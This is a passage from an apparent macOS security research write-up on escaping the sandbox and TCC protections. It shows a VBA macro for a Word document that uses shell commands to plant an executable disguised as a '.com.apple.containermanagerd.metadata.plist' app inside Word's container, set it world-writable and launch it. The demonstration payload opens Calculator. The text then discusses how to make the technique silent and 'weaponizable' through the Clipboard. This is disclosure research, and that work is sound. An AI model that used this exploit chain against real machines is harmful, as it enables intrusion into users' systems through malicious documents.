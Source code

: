```shell
    
    ' Clean
    step1 = "rm -rf hello*;rm -rf .com.apple.containermanagerd.metadata.plist.app;"
    
    ' Create malicious folders and execfile
    step2 = "echo \""use framework \""\\\""Foundation\\\""\""\\n\\nset theAppGroup to  \""\\\""../Containers/com.microsoft.word/Data/.com.apple.containermanagerd.metadata.plist.app/Contents/MacOS\\\""\""\\nset theFileManager to current application's NSFileManager's defaultManager()\nset theContainerURL to theFileManager's containerURLForSecurityApplicationGroupIdentifier:theAppGroup\nreturn theContainerURL as text    \"" > hello.scpt;osascript hello.scpt;"
    
    ' Gain 0082 access then inject payloads into execfile and modify execfile's mode.
    step3 = "open -a \""Microsoft Word\"" .com.apple.containermanagerd.metadata.plist.app/Contents/MacOS/.com.apple.containermanagerd.metadata.plist; (sleep 1; echo  \""#!/bin/sh\nopen -a Calculator\ntouch /tmp/YOUHAVEBEENHACKED\ntouch ~/Desktop/YOUHAVEBEENHACKED\"" > .com.apple.containermanagerd.metadata.plist.app/Contents/MacOS/.com.apple.containermanagerd.metadata.plist;chmod 777 .com.apple.containermanagerd.metadata.plist.app/Contents/MacOS/.com.apple.containermanagerd.metadata.plist; open ./.com.apple.containermanagerd.metadata.plist.app) &> /dev/null &"
    If docPath <> "" Then
        scriptCode = "do shell script "" " & step1 & "  " & step2 & " " & step3 & " """
        MacScript (scriptCode)
    End If
End Sub
```



**Limitations:**

- This exploit opens a new UI to handle a document, making the attack noticeable to the user, which is not ideal for weaponization.

  - If the user opens the malicious document, two documents will be opened.

- If an application has not implemented the `application:openfile` and `application:openfiles` interfaces, this method will not work

  

**Is there a more general, silent, and weaponizable approach we can use?**

**Yes. We can abuse Clipboard.**



#### **2.9.4 Route 4 : Abuse Clipboard**

We first discuss a flaw in Clipboard on macOS. On iOS, the Clipboard component is protected by TCC, but macOS not.

<img src="/images/2024-08-24-Unveiling-Mac-Security-A-Comprehensive-Exploration-of-TCC-Sandboxing-and-App-Data-TCC/WX20240819-170659.png" style="zoom:50%; display: block; margin: 0 auto;" />
